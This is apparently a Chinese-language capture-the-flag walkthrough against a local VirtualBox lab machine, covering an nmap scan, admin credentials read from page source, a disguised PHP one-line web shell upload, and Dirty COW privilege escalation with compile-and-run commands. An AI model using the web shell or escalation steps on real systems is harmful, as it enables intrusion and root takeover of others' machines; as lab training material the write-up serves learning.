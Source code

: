 ## nmap

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-27 15:56 CST
Nmap scan report for 192.168.137.141
Host is up (0.00054s latency).
Not shown: 989 filtered tcp ports (no-response), 10 filtered tcp ports (host-prohibited)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3
| http-robots.txt: 3 disallowed entries 
|_/cola /sisi /beer
MAC Address: 08:00:27:A5:A6:76 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|storage-misc|media device|webcam
Running (JUST GUESSING): Linux 2.6.X|3.X|4.X (97%), Drobo embedded (89%), Synology DiskStation Manager 5.X (89%), LG embedded (88%), Tandberg embedded (88%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/h:drobo:5n cpe:/a:synology:diskstation_manager:5.2
Aggressive OS guesses: Linux 2.6.32 - 3.10 (97%), Linux 2.6.32 - 3.13 (97%), Linux 2.6.39 (94%), Linux 2.6.32 - 3.5 (92%), Linux 3.2 (91%), Linux 3.2 - 3.16 (91%), Linux 3.2 - 3.8 (91%), Linux 2.6.32 (91%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.9 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.54 ms 192.168.137.141

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.61 seconds
```

## web渗透

测试到有/firsti目录是管理员登录页面

读源码得到账号密码

```
eezeepz
keKkeKKeKKeKkEkkEk
```

一句话木马文件上传

```
GIF89a

<?php @eval($_POST[cmd]); ?>
```

bp抓包修改后缀为php.png

然后蚁剑连接进行提权

## 提权

脏牛提权

利用探针脚本检测存在的漏洞

git clone https://github.com/mzet-/linux-exploit-suggester

使用脏牛提权

https://github.com/firefart/dirtycow.git

```
gcc -pthread dirty.c -o dirty -lcrypt
./dirty my-new-password
```

要求在ttr环境下

使用python更改环境

```
python -c 'import pty:pty.spawn("/bin/bash")'
```

脏牛脚本创建的root用户为firefart 密码为自己创建的，为my-new-password